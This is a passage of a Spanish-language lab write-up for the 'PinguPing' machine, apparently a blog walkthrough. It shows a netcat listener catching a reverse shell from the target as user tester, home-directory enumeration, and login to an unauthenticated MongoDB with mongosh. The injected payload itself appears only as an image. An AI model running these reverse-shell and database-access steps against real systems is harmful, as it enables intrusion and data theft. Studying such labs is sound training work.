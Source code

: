 Ahora vamos a ejecutar el comando en la aplicación web.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/PinguPing/8.jpg?raw=true "netcat")

Validamos en nuestro entorno de trabajo que tenemos conexión al servidor remoto mediante el usuario `tester`.

```bash
┌──(root㉿V4lcyfer)-[/home/kali]
└─# nc -lnvp 8000
listening on [any] 8000 ...
connect to [192.168.1.11] from (UNKNOWN) [192.168.1.14] 46750
pwd
/home/tester
whoami
tester
date
lun 10 jun 2024 08:25:25 CEST
|
```
Analizando lo que tiene el usuario `tester` observamos que tiene un archivo oculto, posible archivo de configuración de MongoDB.

```bash
ls -la 
total 36
drwx------ 5 tester tester 4096 may 20 19:38 .
drwxr-xr-x 5 root   root   4096 may 19 18:57 ..
lrwxrwxrwx 1 root   root      9 may 20 19:38 .bash_history -> /dev/null
-rw-r--r-- 1 tester tester  220 may 19 18:56 .bash_logout
-rw-r--r-- 1 tester tester 3526 may 19 18:56 .bashrc
drwxr-xr-x 3 tester tester 4096 may 19 18:58 Desktop
drwxr-xr-x 3 tester tester 4096 may 19 18:58 .local
drwx------ 3 tester tester 4096 may 19 19:03 .mongodb
-rw-r--r-- 1 tester tester  807 may 19 18:56 .profile
-rw-r--r-- 1 tester tester   66 may 19 19:05 .selected_editor

```
### 3.4 Accediendo a la base de datos MongoDB

Probemos si podemos acceder a la base de datos.

```bash
mongosh
Current Mongosh Log ID:	66664af05d2368cb0d2202d7
Connecting to:		mongodb://127.0.0.1:27017/?directConnection=true&serverSelectionTimeoutMS=2000&appName=mongosh+2.2.5
Using MongoDB:		7.0.9
Using Mongosh:		2.2.5
mongosh 2.2.6 is available for download: https://www.mongodb.com/try/download/shell

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-06-10T01:27:01.392+02:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-06-10T01:27:03.593+02:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
   2024-06-10T01:27:03.594+02:00: /sys/kernel/mm/transparent_hugepage/enabled is 'always'. We suggest setting it to 'never' in this binary version
   2024-06-10T01:27:03.594+02:00: vm.max_map_count is too low
------

test> 
```
